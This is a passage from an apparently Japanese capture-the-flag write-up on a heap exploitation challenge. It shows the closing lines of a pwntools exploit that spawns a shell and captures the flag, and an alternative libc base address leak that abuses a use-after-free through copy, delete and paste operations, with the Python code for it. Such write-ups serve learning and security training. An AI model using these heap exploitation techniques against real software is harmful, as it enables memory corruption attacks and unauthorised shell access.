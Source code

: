 ```c: main.c#L69
  memset(list[idx].ptr, 0, list[idx].size);
  printf("Enter your content: ");
```
最後にexitを呼んでshellを起動する。
```python: exploit.py
ex()

io.interactive()
```
実際このexplioitを実行するとshellが起動してフラグが取れる。
![6](https://storage.googleapis.com/zenn-user-upload/12b7f398a8fe-20230506.png)

## libc base leak(別解)
https://ptr-yudai.hatenablog.com/entry/2023/05/07/004235

競技中には気づけなかったがcopy関数を実行するとcopiedにchunk.fdのアドレスが保持されるのでcopy後にdeleteしてもこのアドレスは使える。なのでcopyした後にdeleteしてpasteを呼べばfreeしたchunkのfdを読み出せる。これを使えばlibc base leakが圧倒的に簡単になる。sprintfが実行される時にindex0のchunkがlarge binに入っていることに注意。
```python
create(0, 0x420 - 8, b'')
create(1, 0x20 - 8, b'')
copy(0)
delete(0)
paste(1)
libc_base = unpack(show(1)[:8]) - 0x21a0d0
log.info('libc_base = %#016lx'%(libc_base))
```

# 参考文献
https://smallkirby.hatenablog.com/entry/safeunlinking

[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34
